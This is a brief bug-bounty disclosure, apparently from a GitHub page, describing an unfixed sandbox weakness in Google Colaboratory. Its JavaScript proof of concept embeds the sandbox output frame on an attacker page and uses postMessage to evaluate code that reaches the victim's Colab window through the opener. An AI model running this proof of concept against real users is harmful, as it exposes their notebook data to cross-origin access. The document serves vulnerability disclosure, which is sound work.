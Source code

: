 ```yaml
---
title: Insecure sandbox on Colaboratory (Awarded $1337, Not Fixed)
---
```


Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open("about:blank");
```

On about:blank

```js
opener.location = "https://colab.research.google.com/";
```

Leak ID from unencrypted DNS then do:

```js
let IDfromDNS = "blah";
let f = document.createElement("iframe");
f.hidden = true;
f.src =
  "https://" + IDfromDNS + "-0-colab.googleusercontent.com/outputframe.html";
document.body.appendChild(f);
setTimeout((_) => {
  f.contentWindow.postMessage(
    { sandboxed_iframe_evaluation: "console.log(parent.opener[0].google)" },
    "*",
  );
}, 100);
```

On the "Welcome to Colaboratory" project using the sandbox embedded on the attackers website.

- `parent.opener[0].google` refers to stuff.
- `parent.opener[5].document` refers to the chart.

Sometimes sandboxes use a randomly generated subdomain for isolation unfortunately due to unencrypted DNS this is not safe. <https://www.cloudflare.com/learning/dns/dns-over-tls/>
